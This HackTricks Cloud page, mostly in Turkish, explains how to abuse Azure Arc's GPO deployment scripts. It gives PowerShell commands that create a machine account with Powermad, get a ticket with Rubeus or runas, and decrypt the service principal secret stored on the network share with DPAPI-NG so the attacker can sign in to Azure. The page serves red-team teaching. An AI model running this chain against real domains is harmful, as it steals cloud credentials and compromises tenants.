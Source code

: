 # Az - Arc vulnerable GPO Deploy Script

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### Identifying the Issues

Azure Arc, yeni iç sunucuların (katılmış alan sunucuları) Azure Arc'a Grup Politika Nesnesi yöntemiyle entegrasyonuna olanak tanır. Bunu kolaylaştırmak için Microsoft, onboarding prosedürünü başlatmak için gerekli olan bir dağıtım araç seti sağlar. ArcEnableServerGroupPolicy.zip dosyasının içinde şu betikler bulunur: DeployGPO.ps1, EnableAzureArc.ps1 ve AzureArcDeployment.psm1.

DeployGPO.ps1 betiği çalıştırıldığında, aşağıdaki işlemleri gerçekleştirir:

1. Yerel alanda Azure Arc Sunucuları Onboarding GPO'sunu oluşturur.
2. EnableAzureArc.ps1 onboarding betiğini, onboarding süreci için oluşturulan belirlenen ağ paylaşımına kopyalar; bu paylaşım ayrıca Windows yükleyici paketini de içerir.

Bu betiği çalıştırırken, sistem yöneticileri iki ana parametre sağlamalıdır: **ServicePrincipalId** ve **ServicePrincipalClientSecret**. Ayrıca, alan, paylaşımı barındıran sunucunun FQDN'si ve paylaşım adı gibi diğer parametreler de gereklidir. Kiracı kimliği, kaynak grubu ve diğer gerekli bilgilerin de betiğe sağlanması gerekir.

Belirtilen paylaşımda AzureArcDeploy dizininde DPAPI-NG şifrelemesi kullanılarak şifrelenmiş bir gizli anahtar oluşturulur. Şifrelenmiş gizli anahtar, encryptedServicePrincipalSecret adlı bir dosyada saklanır. Bunun kanıtı, DeployGPO.ps1 betiğinde, şifrelemenin $descriptor ve $ServicePrincipalSecret girdileri ile ProtectBase64 çağrılarak gerçekleştirildiği yerde bulunabilir. Tanımlayıcı, Alan Bilgisayarı ve Alan Denetleyici grup SID'lerinden oluşur ve bu, ServicePrincipalSecret'ın yalnızca Alan Denetleyicileri ve Alan Bilgisayarları güvenlik grupları tarafından şifresinin çözülebileceğini garanti eder; bu, betik yorumlarında belirtilmiştir.
```powershell
# Encrypting the ServicePrincipalSecret to be decrypted only by the Domain Controllers and the Domain Computers security groups
$DomainComputersSID = "SID=" + $DomainComputersSID
$DomainControllersSID = "SID=" + $DomainControllersSID
$descriptor = @($DomainComputersSID, $DomainControllersSID) -join " OR "
Import-Module $PSScriptRoot\AzureArcDeployment.psm1
$encryptedSecret = [DpapiNgUtil]::ProtectBase64($descriptor, $ServicePrincipalSecret)
```
### Exploit

Aşağıdaki koşullara sahibiz:

1. İç ağa başarıyla sızdık.
2. Active Directory içinde bir bilgisayar hesabı oluşturma veya kontrol etme yeteneğine sahibiz.
3. AzureArcDeploy dizinini içeren bir ağ paylaşımını keşfettik.

AD ortamında bir makine hesabı elde etmenin birkaç yöntemi vardır. En yaygın olanlardan biri makine hesabı kotasını istismar etmektir. Diğer bir yöntem, savunmasız ACL'ler veya çeşitli diğer yanlış yapılandırmalar aracılığıyla bir makine hesabını tehlikeye atmaktır.
```powershell
Import-MKodule powermad
New-MachineAccount -MachineAccount fake01 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```
Bir makine hesabı elde edildikten sonra, bu hesapla kimlik doğrulamak mümkündür. Ya netonly bayrağı ile runas.exe komutunu kullanabiliriz ya da Rubeus.exe ile pass-the-ticket yöntemini kullanabiliriz.
```powershell
runas /user:fake01$ /netonly powershell
```

```powershell
.\Rubeus.exe asktgt /user:fake01$ /password:123456 /prr
```
Bellek içinde bilgisayar hesabımız için TGT'ye sahip olarak, hizmet ilkesi gizli anahtarını şifre çözmek için aşağıdaki betiği kullanabiliriz.
```powershell
Import-Module .\AzureArcDeployment.psm1

$encryptedSecret = Get-Content "[shared folder path]\AzureArcDeploy\encryptedServicePrincipalSecret"

$ebs = [DpapiNgUtil]::UnprotectBase64($encryptedSecret)
$ebs
```
Alternatif olarak, [SecretManagement.DpapiNG](https://github.com/jborean93/SecretManagement.DpapiNG) kullanabiliriz.

Bu noktada, şifrelenmişServicePrincipalSecret dosyasıyla aynı ağ paylaşımında saklanan ArcInfo.json dosyasından Azure'a bağlanmak için gereken kalan bilgileri toplayabiliriz. Bu dosya, TenantId, servicePrincipalClientId, ResourceGroup ve daha fazlası gibi ayrıntıları içerir. Bu bilgilerle, tehlikeye atılmış hizmet ilkesi olarak kimlik doğrulamak için Azure CLI'yi kullanabiliriz.

## Referanslar

* [https://xybytes.com/azure/Abusing-Azure-Arc/](https://xybytes.com/azure/Abusing-Azure-Arc/)

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.**

</details>
{% endhint %}
